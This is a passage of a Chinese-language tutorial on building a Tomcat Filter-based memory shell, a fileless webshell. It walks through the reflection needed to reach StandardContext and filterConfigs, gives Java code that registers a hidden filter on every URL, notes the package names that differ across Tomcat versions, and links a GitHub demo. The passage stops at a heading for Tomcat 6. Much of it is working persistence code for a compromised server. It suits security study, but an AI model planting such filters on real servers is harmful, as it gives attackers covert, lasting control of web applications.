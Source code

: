先是获取当前的`servlet`上下文并拿到其私有字段`context`，然后设置可访问，这样就可以通过反射这个`context`字段的值，这个值是一个`ApplicationContext`对象；接着获取`ApplicationContext`的私有字段`context`并设置可访问，然后通过反射获取`ApplicationContext`的`context`字段的值，这个值是一个`StandardContext`对象；最后是获取`StandardContext`的私有字段`filterConfigs`，设置可访问之后通过反射获取`StandardContext`的`filterConfigs`字段的值。

中间的构造匿名类的部分就不说了，和之前的`Servlet`是很像的，别忘记最后的`filterChain.doFilter`就行。

然后是这段代码：

```bash
FilterDef filterDef = new FilterDef();
filterDef.setFilterName(filterName);
filterDef.setFilterClass(filter.getClass().getName());
filterDef.setFilter(filter);
standardContext.addFilterDef(filterDef);
FilterMap filterMap = new FilterMap();
filterMap.setFilterName(filterName);
filterMap.addURLPattern("/*");
filterMap.setDispatcher(DispatcherType.REQUEST.name());
standardContext.addFilterMapBefore(filterMap);
Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
constructor.setAccessible(true);
ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
filterConfigs.put(filterName, applicationFilterConfig);
```

也就是定义我们自己的`filterDef`和`FilterMap`并加入到`srandardContext`中，接着反射获取 `ApplicationFilterConfig` 类的构造函数并将构造函数设置为可访问，然后创建了一个 `ApplicationFilterConfig` 对象的实例，接着将刚刚创建的实例添加到过滤器配置的 `Map` 中，`filterName` 为键，这样就可以将动态创建的过滤器配置信息加入应用程序的全局配置中。

需要注意的是，在`tomcat 7`及以前`FilterDef`和`FilterMap`这两个类所属的包名是：

```bash
<%@ page import="org.apache.catalina.deploy.FilterMap" %>
<%@ page import="org.apache.catalina.deploy.FilterDef" %>
```

`tomcat 8`及以后，包名是这样的：

```bash
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
```

由于这方面的区别，最好是直接都用反射去写这个`filter`内存马，具体`demo`参考：

> [https://github.com/feihong-cs/memShell/blob/master/src/main/java/com/memshell/tomcat/FilterBasedWithoutRequestVariant.java](https://github.com/feihong-cs/memShell/blob/master/src/main/java/com/memshell/tomcat/FilterBasedWithoutRequestVariant.java)

还有个需要注意的点就是，我给出的这个`demo`代码只适用于`tomcat 7`及以上，因为 `filterMap.setDispatcher(DispatcherType.REQUEST.name());`这行代码中用到的`DispatcherType`是在`Servlet 3.0`规范中才有的。

### 3.2.3 tomcat6 下 filter 内存马的编写
